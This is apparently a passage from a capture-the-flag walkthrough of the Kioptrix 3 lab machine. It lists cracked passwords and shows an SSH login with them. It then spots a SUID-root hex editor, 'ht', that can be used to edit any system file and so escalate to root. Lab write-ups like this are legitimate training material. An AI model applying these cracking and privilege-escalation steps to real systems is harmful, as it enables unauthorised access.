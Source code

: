 It was a bit overkill to dump so much information, but I only show here the important bits. To crack the hashes, I used the http://www.hashkiller.co.uk/ site:

dreg's password: Mast3r

loneferret's password: starwars

Thankfully, these credentials work for SSH login, so I could get rid of the Metasploit shell which kept throwing EOF errors if I didn't interact with it for a while.

``` plain
ssh loneferret@kioptrix3.com
The authenticity of host 'kioptrix3.com (192.168.127.128)' can't be established.
RSA key fingerprint is 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'kioptrix3.com' (RSA) to the list of known hosts.
loneferret@kioptrix3.com's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
Last login: Sat Apr 16 08:51:58 2011 from 192.168.1.106
loneferret@Kioptrix3:~$ 
```

In the home directory there's a <code>CompanyPolicy.README</code> file with the following:

``` plain
 Hello new employee,
 It is company policy here to use our newly installed software for editing, creating and viewing files.
 Please use the command 'sudo ht'.
 Failure to do so will result in you immediate termination.

 DG
 CEO
```

So, let's see what this ht program is all about:

``` plain
loneferret@Kioptrix3:~$ whereis ht
ht: /usr/local/bin/ht
loneferret@Kioptrix3:~$ ls -l /usr/local/bin/ht
-rwsr-sr-x 1 root root 2072344 2011-04-16 07:26 /usr/local/bin/ht
```

Looks like a SUID binary! And it seems it's a hex editor that we can use to view and edit any file on the system!
